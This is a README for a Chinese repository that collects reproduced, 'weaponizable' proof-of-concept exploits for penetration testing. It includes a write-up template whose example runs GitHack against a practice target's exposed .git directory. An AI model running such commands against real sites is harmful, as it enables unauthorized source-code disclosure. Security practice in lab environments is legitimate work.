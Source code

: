 # poc-hub
将之前复现过的poc收集于此处，包括成功复现的和因为环境原因未成功复现的，为日后的渗透测试提供便利

当前仓库没有漏洞分析只有可武器化的POC

漏洞复现模板如下：
```
# 0x00 软件介绍
git：分布式版本控制系统

# 0x01 复现环境
使用环境：攻防世界中的环境  
复现版本：无

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

# 0x03 利用条件
无

# 0x04 影响版本
无

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

git clone https://github.com/lijiejie/GitHack  
cd ./GitHack-master  
python ./GitHack.py http://124.126.19.106:31232/.git/  
如下图  
![image](./0.png)  
![image](./1.png)  

# 0x06 踩坑记录
无

# 0x07 参考链接
无
```
